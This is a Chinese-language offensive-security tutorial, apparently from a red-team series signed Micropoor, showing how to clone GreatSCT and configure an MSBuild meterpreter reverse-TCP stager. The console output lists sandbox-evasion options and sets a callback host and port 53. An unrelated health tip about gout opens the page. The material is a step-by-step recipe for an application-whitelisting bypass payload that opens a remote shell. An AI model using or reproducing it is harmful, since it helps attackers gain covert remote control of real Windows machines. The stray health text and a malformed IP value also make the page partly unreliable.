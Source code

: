 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

工具介绍：  
https://github.com/GreatSCT/GreatSCT

### 简介：  

GreatSCT 是以 metasploit payload 为核心，白名单辅助 payload 执行框架。
```bash
root@John:~# git clone https://github.com/GreatSCT/GreatSCT.git
Cloning into 'GreatSCT'...
remote: Enumerating objects: 727, done.
remote: Total 727 (delta 0), reused 0 (delta 0), pack‐reused 727
Receiving objects: 100% (727/727), 10.64 MiB | 572.00 KiB/s, done.
Resolving deltas: 100% (384/384), done.
```  
![](/img/4b7b7364cadb4717086ebb5019db21cd.jpg)

![](/img/3e2f95599ea725fbaf324c19d0844ac7.jpg)

![](/img/9e50f5e8220ad366afb664445e12f567.jpg)

![](/img/60d66478b636b2723607a4b90056e4a8.jpg)

```bash
===========================================================================
Great Scott!
===========================================================================
[Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===========================================================================

Payload information: 

Name: Pure MSBuild C# Reverse TCP Stager
Language: msbuild
Rating: Excellent
Description: pure windows/meterpreter/reverse_tcp stager, no
shellcode 

Payload: msbuild/meterpreter/rev_tcp selected 

Required Options: 

Name Value Description
‐‐‐‐ ‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
DOMAIN X Optional: Required internal domain
EXPIRE_PAYLOAD X Optional: Payloads expire after "Y" days
HOSTNAME X Optional: Required system hostname
INJECT_METHOD Virtual Virtual or Heap
LHOST IP of the Metasploit handler
LPORT 4444 Port of the Metasploit handler
PROCESSORS X Optional: Minimum number of processors
SLEEP X Optional: Sleep "Y" seconds, check if accelerated
TIMEZONE X Optional: Check to validate not in UTC
USERNAME X Optional: The required user account

Available Commands: 

back Go back
exit Completely exit GreatSCT
generate Generate the payload
options Show the shellcode's options
set Set shellcode option 

[msbuild/meterpreter/rev_tcp>>] set LHOST 192.168.1.4 41

[msbuild/meterpreter/rev_tcp>>] set LPORT 53 
```
>   Micropoor
